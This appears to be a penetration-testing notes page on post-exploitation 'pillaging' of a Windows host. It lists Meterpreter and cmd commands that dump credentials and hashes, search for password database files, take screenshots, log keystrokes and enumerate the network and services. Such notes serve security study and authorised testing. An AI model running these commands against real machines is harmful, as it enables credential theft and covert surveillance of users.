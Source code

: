 # s - Pillaging

Involves gather relevant information from the victim machine, obtaining Network information (pivot points), local system infos (files, doc, screenshots, apps etc).

{% code overflow="wrap" lineNumbers="true" %}
```bash
cmd> systeminfo

meterpreter > run post/windows/gather/ # hit tab to see all available modules.
meterpreter > run post/windows/gather/enum_applications # enum all installed apps, we might be able to discover some vulnerable apps, which we can exploit.
meterpreter > run post/windows/gather/credentials/winscp # enum credentials used for the SFTP server, etc.
meterpreter > run post/windows/gather/credentials/credential_collector # dumps hashes and tokens.
meterpreter > search -f *.kdb -r -d # indepth search on any file.
meterpreter > screenshot # capture current screen of the user.
meterpreter > keyscan_start # capture keystokes.
meterpreter > ifconfig
meterpreter > arp
meterpreter > route
meterpreter > shell
cmd> wmic /? # help menu.
cmd> wmic service /? # menu for the system services.
cmd> wmic service get /?
cmd> wmic service get caption,started # display all started services.
cmd> wmic services where started=true get caption # all running services.
```
{% endcode %}
